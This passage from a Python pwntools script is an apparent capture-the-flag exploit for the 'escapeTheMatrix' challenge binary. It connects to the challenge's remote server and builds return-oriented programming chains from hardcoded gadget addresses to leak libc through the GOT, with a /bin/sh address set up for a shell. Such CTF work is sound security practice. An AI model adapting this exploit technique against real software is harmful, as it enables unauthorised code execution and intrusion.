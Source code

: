 ```python
    return (struct.unpack("d", p64(i))[0])


def new_con():
    # with context.local(log_level='warning'):
    # rem = process("ltrace -C -f -i ./escapeTheMatrix 2>ltrace.log", shell=True)
    # rem = process("./escapeTheMatrix")  # , env=vpenv)
    # gdb.attach(rem, gdbscript)
    rem = remote("escapethematrix.quals.nuitduhack.com", 50505)
    return rem


velf = ELF("./escapeTheMatrix")
# libc = ELF("./libc.so.6")
libc = ELF("/usr/lib/libc-2.25.so")
context.arch = velf.arch

N = 16
retaddr_A_idx = 229

pollfailedstr = 0x00401c63

main_addr = 0x400fa6
fini_array = 0x00602de0
read_int_addr = 0x400ed0
read_data_addr = 0x400d75

poprdiret = 0x00401c33
poprsir15 = 0x00401c31

# shaddr = next(libc.search("/bin/sh\x00"))
# shaddr = 0x0060314f
shaddr = velf.got['exit'] + 8

# chain = ROP(velf)
# chain.raw(velf.symbols['puts'])
# chain.raw(velf.symbols['exit'])
# chain.puts(velf.symbols['exit'])
# chain.read(0, velf.symbols['exit'])
# chain.exit(42)

chain0 = ROP(velf)
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# all the tries to get it working with a single rop chain...
# chain0.raw(poprdiret)
# chain0.raw(0)
# chain0.raw(poprsir15)
# chain0.raw(fini_array)
# chain0.raw(fini_array)
# chain0.raw(velf.symbols['read'])
# chain0.raw(velf.got['exit'])
# chain0.raw(velf.symbols['exit'])
# chain0.raw(main_addr)
# chain0.raw(0xdeadbeef)
# chain0.raw(poprdiret)
# chain0.raw(velf.got['exit'])
# chain0.raw(poprsir15)
# chain0.raw(8)
# chain0.raw(8)
# chain0.raw(read_data_addr)
# chain0.raw(poprdiret)
```